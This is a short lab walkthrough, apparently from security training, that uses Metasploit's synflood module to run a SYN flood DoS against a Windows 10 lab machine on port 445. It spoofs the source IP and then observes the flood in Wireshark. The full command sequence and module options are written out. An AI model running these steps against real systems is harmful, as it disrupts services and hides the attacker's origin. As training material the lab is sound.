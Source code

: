 In this lab, we will use an auxiliary module from **Metasploit** named **synflood** to perform DoS attack on the target using port 445.

## Perform DoS attack
Type **msfconsole** to launch Metasploit Framework.

`msfconsole`

Type the command to load the module:

`use auxiliary/dos/tcp/synflood`

To display all the options of the module, type:

`options`

```
Name       Current Setting  Required  Description
----       ---------------  --------  -----------
INTERFACE                   no        The name of the interface
NUM                         no        Number of SYNs to send (else unlimited)
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port
SHOST                       no        The spoofable source address (else randomizes)
SNAPLEN    65535            yes       The number of bytes to capture
SPORT                       no        The source port (else randomizes)
TIMEOUT    500              yes       The number of seconds to wait for new data
```

We will change the RHOST, RPORT and SHOST parameters:

`set RHOST [IP address of Windows 10]`<br>
`set RPORT 445`<br>
`set SHOST [IP address of Windows Server]`

By setting the **SHOST** option to the IP address of Windows Server, you are spoofing the IP address of Kali Linux machine.

Once the auxiliary module is configured, start the DoS attack on Windows 10 by typing:

`run`

![synflood](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/9f36f0e0d55c0b7429e547dd93c7c55c55b96ea4/synflood-0.png)

This begins the SYN flooding on the Windows 10.

## Examine the DoS Attack
Switch to the Windows 10 machine and launch the **Wireshark**, select the corret interface and click start.

Wireshark displays the traffic comming from the machine as shown below:

![wireshark-synflood-detect](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/9f36f0e0d55c0b7429e547dd93c7c55c55b96ea4/synflood-wireshark-4.png)

Here, you can observe that the source IP address is from Windows Server. This implies that the IP Address of Kali Linux has been spoofed.
